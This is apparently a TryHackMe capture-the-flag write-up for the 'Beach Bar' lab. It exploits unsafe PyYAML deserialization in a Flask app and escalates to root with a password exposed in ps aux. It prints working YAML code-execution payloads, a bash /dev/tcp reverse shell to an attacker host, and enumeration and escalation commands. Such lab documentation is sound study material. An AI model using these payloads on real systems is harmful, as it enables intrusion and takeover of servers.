





# TryHackMe — "Beach Bar" Write-up (HackerHolidays Room 5)

# Summary

This is my write-up for **Beach Bar**, Room 5 of TryHackMe's **HackerHolidays** event.
It covers the full path from initial recon to root, including the unsafe YAML
(PyYAML) deserialization vulnerability used for the initial foothold and the
privilege escalation technique used to get root. If you're stuck on **HackerHolidays
Room 5 (Beach Bar)**, read on for the complete walkthrough.

The **Beach Bar** application is a Flask/Gunicorn web app that lets an authenticated
user import a "playlist" via YAML. The `/import` endpoint deserializes user-supplied
YAML using an **unsafe PyYAML loader**, allowing arbitrary Python object construction
and, ultimately, **arbitrary OS command execution** as the `bartender` user. From
there, a **credential exposed via the process list** (`ps aux`) allowed escalation to
**root**.

---

| Stage                | Result                                                              |
| -------------------- | ------------------------------------------------------------------- |
| Initial recon        | Flask app behind Gunicorn, login form, `/import` & `/export` routes |
| Authentication       | Hardcoded credentials `dj` / `dj` found in application source code  |
| Foothold             | Unsafe YAML deserialization → RCE as `bartender`                    |
| User flag            | `THM{█████████████████████████}` _(redacted)_                       |
| Privilege escalation | Root password exposed in `ps aux` output, reused for `su`           |
| Root flag            | `THM{█████████████████████████}` _(redacted)_                       |

---

## 1. Reconnaissance

### 1.1 Port scan

```
nmap -Pn -p- --min-rate 5000 10.48.148.143
```

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Only SSH and HTTP were exposed — the web application was the primary attack surface.

### 1.2 Web fingerprinting

```
whatweb http://10.48.148.143/dashboard
```

```
http://10.48.148.143/dashboard [302 Found] HTTPServer[gunicorn], RedirectLocation[/login]
http://10.48.148.143/login     [200 OK]    HTTPServer[gunicorn], PasswordField[password], Title[Beach Bar // Sign in]
```

This confirmed a **Python (Gunicorn/Flask)** backend with a standard login form.

### 1.3 Application map

After logging in, the following routes were identified:

- `/dashboard` — main "Floor" view
- `/import` — upload/paste a YAML playlist
- `/export` — download a playlist (found to return a static, pre-set playlist rather
  than the most recently imported data)
- `/logout`

Before reaching `/import`, the app required a login. Reviewing the application
source code (later retrieved from `/opt/beach-bar/webapp/app.py` after gaining a
shell — see Section 4) confirmed the session cookie decoded earlier
(`{"user": "dj"}`) corresponded to a **hardcoded credential pair baked directly
into the source**:


```
Username: dj
Password: dj
```

This allowed straightforward authentication to the dashboard without needing to
brute-force, guess, or bypass the login form — a classic **hardcoded
credentials** weakness (CWE-798).



---

## 2. Session cookie

The Flask session cookie was decoded (Base64URL, no signature bypass attempted):

```
eyJ1c2VyIjoiZGoifQ.am2y7Q.1CQL7Wj59z5R530TFZkoadFtnxE
```

Decoded payload:

```json
{ "user": "dj" }
```

This confirmed a standard **Flask signed session cookie**. Without the app's
`SECRET_KEY`, the signature could not be forged, so this was set aside as a
non-viable path and attention was refocused on `/import`.

## 3. Identifying the Vulnerability

### 3.1 Confirming a real YAML parser (not a simple string parser)

Test payloads were submitted to `/import` to see whether the server was doing more
than treating the input as plain text.

| Input                               | Parsed result                         |
| ----------------------------------- | ------------------------------------- |
| `time: 2025-01-01`                  | `{'time': datetime.date(2025, 1, 1)}` |
| `blob: !!binary \| SGVsbG8=`        | `{'blob': b'Hello'}`                  |
| `!!set` with `? apple` / `? banana` | `{'apple', 'banana'}`                 |

The server was echoing back the **Python `repr()`** of the object produced by the
YAML loader — strong evidence the application was calling something like:

```python
obj = yaml.load(data)   # or yaml.full_load / yaml.unsafe_load
print(obj)
```

rather than converting the result back to JSON or sanitising it.



### 3.2 Confirming an _unsafe_ loader

Standard `SafeLoader` behaviour would reject Python-specific tags
(`!!python/object/...`) with a `ConstructorError`. Testing showed the application
instead **accepted and executed** such tags, confirming the loader in use was
**not** `yaml.SafeLoader` — i.e. this was a `FullLoader`/`UnsafeLoader`-class
vulnerability, matching the well-known PyYAML deserialization issue behind
**CVE-2017-18342** and related advisories for `yaml.load()`/`yaml.full_load()`
used without restriction.

---

## 4. Exploitation — Remote Code Execution

**Class:** Deserialization of Untrusted Data — **CWE-502**
**Specific issue:** PyYAML unsafe loader arbitrary object construction — the family
of issues tracked under **CVE-2017-18342** (`yaml.load()` defaulting to the unsafe
`Loader`, with later PyYAML versions still exploitable via `yaml.full_load()` /
`yaml.unsafe_load()` / `Loader=yaml.Loader` / `yaml.UnsafeLoader`).

PyYAML's non-safe loaders don't just parse YAML into plain dicts/lists/strings —
they support custom **tags** that tell the loader to construct arbitrary Python
objects. Two tags matter here:

- `!!python/object/apply:<module.callable>` — tells the loader to **call** the
  given Python function/class with the arguments that follow.
- `!!python/object/new:<module.callable>` — similar, but goes through
  `__new__`/`__reduce__` machinery.

If the loader is `yaml.Loader`, `yaml.FullLoader`, or `yaml.UnsafeLoader` (i.e.
anything other than `yaml.SafeLoader`), it will happily import the named module,
resolve the named function, and **call it with attacker-controlled arguments**
this is functionally equivalent to Python's `pickle` RCE problem, just reached via
YAML instead.

### 4.1 How the payload was derived

The payload wasn't guessed it was built up step by step from the loader
fingerprinting done in Section 3:

1. Section 3.1 already proved the server was calling a real YAML constructor
   (`datetime.date`, `bytes`, `set` were all being built from tags like `!!binary`
   and `!!set`), so **arbitrary tag → Python object construction** was already a
   confirmed primitive.
2. Section 3.2 confirmed Python-specific tags (`!!python/...`) were **not**
   rejected, ruling out `SafeLoader` and confirming a `FullLoader`/`UnsafeLoader`-
   class deserializer was in use.
3. Since the loader would call whatever function was named after
   `!!python/object/apply:`, any Python standard-library function that executes a
   shell command became a candidate gadget: `os.system`, `os.popen`,
   `subprocess.Popen`, `subprocess.call`, `subprocess.check_output`, etc.
4. `subprocess.Popen` was tried first a very common, well-documented PyYAML RCE
   gadget passing the command as a list of arguments (the standard YAML
   representation for a constructor's positional args):

   ```yaml
   !!python/object/apply:subprocess.Popen [["whoami"]]
   ```

   The response echoed a `repr()` of the returned `Popen` object
   (`<Popen: returncode: None args: ['whoami']>`). This alone doesn't show command
   _output_, but it **proves the constructor call executed**, since a real
   `Popen` object was created and printed back by the app.

5. To get readable output instead of just proof of execution,
   `subprocess.check_output` was used instead it runs the command and
   **returns the captured stdout** as the return value, which the application
   then printed directly:

   ```yaml
   !!python/object/apply:subprocess.check_output [["id"]]
   ```

### 4.2 Proof of concept

```yaml
!!python/object/apply:subprocess.Popen [["whoami"]]
```

Response:

```
Loaded playlist
<Popen: returncode: None args: ['whoami']>
```

This confirmed the payload was executed server-side. The cleaner PoC using
`subprocess.check_output` returned readable command output directly:

```yaml
!!python/object/apply:subprocess.check_output [["id"]]
```



### 4.3 Gaining an interactive shell

A reverse shell payload was submitted via the same technique:

```yaml
!!python/object/apply:os.system [
  "bash -c 'bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1'",
]
```

With a listener running locally:

```
nc -nvlp 4444
```

An interactive shell was received as the `bartender` user:

```
listening on [any] 4444 ...
connect to [ip] from (UNKNOWN) [ip] 47928
bartender@tryhackme-2404:/opt/beach-bar/webapp$ id
uid=1001(bartender) gid=1001(bartender) groups=1001(bartender)
```

A PTY was upgraded for a stable, fully interactive shell:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```



### 4.4 User flag

```
cat /home/bartender/user.txt
THM{█████████████████████████████}
```

---

---

## 5. Privilege Escalation

### 5.1 Enumeration

Standard privilege-escalation checks were run:

- `sudo -l` → required a password (no passwordless sudo)
- `find / -perm -4000 -type f 2>/dev/null` → only standard distro/snap SUID
  binaries, nothing custom or exploitable
- `/etc/crontab` → only default system cron entries, nothing custom

### 5.2 Root-owned process with an exposed secret

```
ps aux | grep -i python
```

```
root  606  ... /opt/beach-bar/venv/bin/python /opt/beach-bar/jukeboxd/jukeboxd.py --stream-pass SunsetSpritz2024! --bitrate 320k
root  607  ... gunicorn -w 2 -b 0.0.0.0:80 --user bartender --group bartender app:app
```

A root-owned process, `jukeboxd.py`, had been launched with a **secret passed as a
command-line argument** (`--stream-pass SunsetSpritz2024!`). On Linux, command-line
arguments of _any_ running process are visible to all local users via `ps aux` or
`/proc/<pid>/cmdline`, regardless of the process owner. This is a well-known
anti-pattern: **secrets should never be passed via CLI arguments.**

Inspection of the script itself (`jukeboxd.py`) showed the `--stream-pass` argument
was actually unused by the program logic — it was purely a credential that had been
**reused elsewhere on the system** (a secondary flaw: credential reuse).



### 5.3 Credential reuse → root

The exposed string `SunsetSpritz2024!` was tried as the `bartender`/root system
password:

```
su root
Password: SunsetSpritz2024!
```

This succeeded, granting a root shell.

> 📸 _Insert screenshot of the root shell (`root@tryhackme-2404`)_
> ``

### 5.4 Root flag

```
cat /root/root.txt
THM{█████████████████████████████}
```

---

## 6. Root Cause Analysis

| Weakness                                        | Location                                                                                                        | Impact                                                                   |
| ----------------------------------------------- | --------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------ |
| Unsafe YAML deserialization                     | `/import` endpoint (Flask `app.py`), likely `yaml.load()` / `yaml.full_load()` without restricting the `Loader` | Remote Code Execution as `bartender`                                     |
| Secret passed via process command-line argument | `jukeboxd.py` systemd/init invocation (`--stream-pass ...`)                                                     | Local information disclosure of a plaintext credential to any local user |
| Credential reuse                                | Same password reused as a system account password                                                               | Local Privilege Escalation from `bartender` to `root`                    |

---

## 8. Timeline of Commands (Reference)

```text
# Recon
nmap -Pn -p- --min-rate 5000 10.48.148.143
whatweb http://10.48.148.143/dashboard

# Confirm YAML type coercion (PyYAML fingerprinting)
time: 2025-01-01
blob: !!binary | SGVsbG8=
!!set
? apple
? banana

# RCE PoC
!!python/object/apply:subprocess.check_output [["id"]]

# Reverse shell
!!python/object/apply:os.system ["bash -c 'bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1'"]
nc -nvlp 4444

# Shell stabilization
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

# PrivEsc enumeration
sudo -l
find / -perm -4000 -type f 2>/dev/null
cat /etc/crontab
ps aux | grep -i python
cat /opt/beach-bar/jukeboxd/jukeboxd.py

# PrivEsc
su root
```

PWN by **W4RR1OR**
